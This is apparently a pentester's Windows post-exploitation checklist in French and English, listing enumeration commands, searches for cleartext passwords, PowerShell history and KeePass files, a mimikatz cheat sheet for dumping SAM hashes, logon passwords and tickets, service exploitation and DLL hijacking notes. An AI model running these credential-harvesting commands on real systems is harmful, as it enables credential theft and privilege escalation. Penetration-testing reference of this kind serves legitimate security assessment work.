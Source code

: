 # Checklist Windows
  
**Hostname:** hostname  
**Infos utilisateur:** whoami /all  
**infos IP:** ipconfig /all  
**liste des connexions:** netstat -ano  
**infos system:** systeminfo  
**powershell-history:** type C:\Users\[user]\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt  
to verify the path of ConsoleHost_history: (Get-PSReadlineOption).HistorySavePath  
  
**list connected user:**  
query user  
  
**users and localgroups:**  
net users  
net localgroups  

**More info about a specific user:**  
net user [user]  
  
**View Domain Groups:**  
net group /domain  
  
**View Members of Domain Group:**  
net group /domain [Group Name]  

**lister user/groupe en powershell:**  
Get-LocalUser  
Get-LocalGroup  
Get-LocalGroupMember adminteam  
  
**process:**  
Get-Process  
tasklist /v  
  
**Logiciels installés:**  
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname  
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname  
  
**Firewall:**  
netsh firewall show state  
netsh firewall show config  

## Cleartext Passwords  
findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
  
**Find all those strings in config files.**  
dir /s *pass* == *cred* == *vnc* == *.config*  
  
**Find all passwords in all files.**  
findstr /spin "password" *.*  
findstr /spin "password" *.*  

**Kepass File**  
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue  
  
All doc file :
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

## mimikatz.exe cheat sheet
privilege::debug  -->  engage the SeDebugPrivlege  
token::elevate + lsadump::sam --> Dump from SAM database  
sekurlsa::logonpasswords --> Dump from Sekurlsa  
sekurlsa::tickets --> Dump cached tickets  
Some source: https://chryzsh.gitbooks.io/pentestbook/content/privilege_escalation_windows.html  

## exploiter un service:  
**lister les services:** Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}  
Lister service modifiable: Get-ModifiableServiceFile (PowerUp.ps1)  
**infos sur un service:** SC.exe query <service>  
**démarer un sevice:** sc.exe start <service>  
**ou:** net start <service>  
  
## DLL hyjacking:  
Standard DLL search order on current Windows versions: 
1. The directory from which the application loaded.  
2. The system directory.  
3. The 16-bit system directory.  
4. The Windows directory.   
5. The current directory.  
6. The directories that are listed in the PATH environment variable.

7. 
